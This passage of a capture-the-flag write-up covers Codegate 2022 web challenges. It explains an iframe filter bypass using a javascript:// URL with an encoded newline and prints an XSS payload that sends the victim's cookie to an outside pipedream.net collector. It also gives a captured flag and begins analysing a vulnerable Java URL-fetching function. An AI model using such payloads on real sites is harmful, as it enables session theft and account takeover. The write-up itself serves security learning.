 If you look at the iframe tag part, the hostname of the src attribute value of the iframe should always be youtube.com. That is, it must be a URL such as https://google.com or http://google.com. But we can put hostname in javascript scheme.

All parsers provided by python, java, and javascript separate protocols and hostnames based on ://. But javascript://google.com does not run javascript. However, if it is used like javascript://google.com/%0aalert(1), it is excluded from execution by parsing. We can use this to get flags.

```html
<iframe src=javascript://youtube.com/%0afetch('https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/?flag'.concat(document.cookie))>
```
```txt
codegate2022{4074a143396395e7196bbfd60da0d3a7739139b66543871611c4d5eb397884a9}
```
I inserted the above tag and reported it, so I was able to get an administrator session, and I logged in using the session and read the flag.

---
## (Web) babyFirst

```java
private static String lookupImg(String memo) {
    Pattern pattern = Pattern.compile("(\\[[^\\]]+\\])");
    Matcher matcher = pattern.matcher(memo);
    String img = "";
    if (matcher.find()) {
      img = matcher.group();
    } else {
      return "";
    }
    String tmp = img.substring(1, img.length() - 1);
    tmp = tmp.trim().toLowerCase();
    pattern = Pattern.compile("^[a-z]+:");
    matcher = pattern.matcher(tmp);
    if (!matcher.find() || matcher.group().startsWith("file"))
      return "";
    String urlContent = "";
    try {
      URL url = new URL(tmp);
      BufferedReader in = new BufferedReader(new InputStreamReader(url.openStream()));
      String inputLine = "";
      while ((inputLine = in.readLine()) != null)
        urlContent = urlContent + inputLine + "\n";
      in.close();
    } catch (Exception e) {
      return "";
    }
    Base64.Encoder encoder = Base64.getEncoder();
    try {
      String encodedString = new String(encoder.encode(urlContent.getBytes("utf-8")));
      memo = memo.replace(img, "<img src='data:image/jpeg;charset=utf-8;base64," + encodedString + "'><br/>");
      return memo;
    } catch (Exception e) {
      return "";
    }
  }
```
A vulnerability occurs in the lookupImg() function. If a memo is written in the same syntax as [https://pocas.kr], the lookupImg() function fetches the value inside [] with a regular expression and then verifies the protocol.
